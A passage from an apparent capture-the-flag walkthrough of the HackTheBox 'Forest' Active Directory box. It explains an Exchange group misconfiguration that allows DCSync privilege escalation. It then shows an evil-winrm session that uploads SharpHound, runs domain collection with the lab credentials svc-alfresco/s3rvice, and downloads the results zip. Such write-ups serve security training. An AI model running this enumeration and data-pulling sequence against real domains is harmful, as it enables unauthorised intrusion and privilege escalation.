 **AND we found the USER flag using svc-alfresco which resided in the account's Desktop directory.**



## Privilege Escalation

We need to get a deeper understanding of this AD environment and the accounts rights. There is a vulnerability in Exchange environments and two groups that would allow some accesses that should not happen, like account modification, and to escalate privileges, accounts in these groups would only need DCSync permissions, quite possible to do. Explained further in Resource #6.

This information can be also found through LDAP and/or by using [ldapdomaindump](https://github.com/dirkjanm/ldapdomaindump): EXCHANGE TRUSTED SUBSYSTEM and EXCHANGE WINDOWS PERMISSIONS.

Let's use [Bloodhound/Sharphound](https://github.com/BloodHoundAD/BloodHound) through our current session in evil-winrm.

NOTE: To do this, you must first have Bloodhound setup and configured, a walkthrough by itself that I will skip. Also, pay close attention to the syntax when using Sharphound powershell script.


### SHARPHOUND
```
*Evil-WinRM* PS C:\Users\svc-alfresco\Downloads> upload ./ps1_scripts/SharpHound.ps1
Info: Uploading ./ps1_scripts/SharpHound.ps1 to C:\Users\svc-alfresco\Downloads\SharpHound.ps1

Data: 1226060 bytes of 1226060 bytes copied

Info: Upload successful!

*Evil-WinRM* PS C:\Users\svc-alfresco\Downloads> import-module .\SharpHound.ps1
*Evil-WinRM* PS C:\Users\svc-alfresco\Downloads> Invoke-BloodHound -Domain HTB -LDAPUser svc-alfresco -LDAPPass s3rvice -CollectionMethod All -ZipFileName test.zip
*Evil-WinRM* PS C:\Users\svc-alfresco\Downloads> ls


    Directory: C:\Users\svc-alfresco\Downloads


Mode                LastWriteTime         Length Name                                                                                                                                                                                                    
----                -------------         ------ ----                                                                                                                                                                                                    
-a----         1/9/2020   8:31 PM           8978 Rk9SRVNU.bin                                                                                                                                                                                            
-a----         1/9/2020   8:23 PM         919546 SharpHound.ps1                                                                                                                                                                                          
-a----         1/9/2020   8:31 PM          12921 test.zip                                                                                                                                                                                                


*Evil-WinRM* PS C:\Users\svc-alfresco\Downloads> download test.zip
Info: Downloading C:\Users\svc-alfresco\Downloads\test.zip to test.zip

Info: Download successful!

*Evil-WinRM* PS C:\Users\svc-alfresco\Downloads> exit
```
